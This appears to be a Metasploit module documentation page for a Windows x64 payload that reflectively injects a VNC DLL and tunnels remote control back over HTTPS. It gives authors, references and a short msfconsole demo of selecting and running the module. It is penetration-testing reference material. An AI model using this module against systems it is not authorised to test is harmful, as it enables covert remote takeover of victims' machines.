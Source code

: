 ## Windows x64 VNC Server (Reflective Injection), Windows x64 Reverse HTTPS Stager (winhttp)

Inject a VNC Dll via a reflective loader (Windows x64) 
(staged). Tunnel communication over HTTPS (Windows x64 
winhttp)


## Module Name
payload/windows/x64/vncinject/reverse_winhttps

## Authors
* sf
* OJ Reeves


## References
* https://github.com/stephenfewer/ReflectiveDLLInjection
* https://github.com/rapid7/ReflectiveDLLInjection




## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/x64/vncinject/reverse_winhttps
msf payload(reverse_winhttps) > show targets
   ... a list of targets ...
msf payload(reverse_winhttps) > set TARGET <target-id>
msf payload(reverse_winhttps) > show options
   ... show and set options ...
msf payload(reverse_winhttps) > run
```
    
    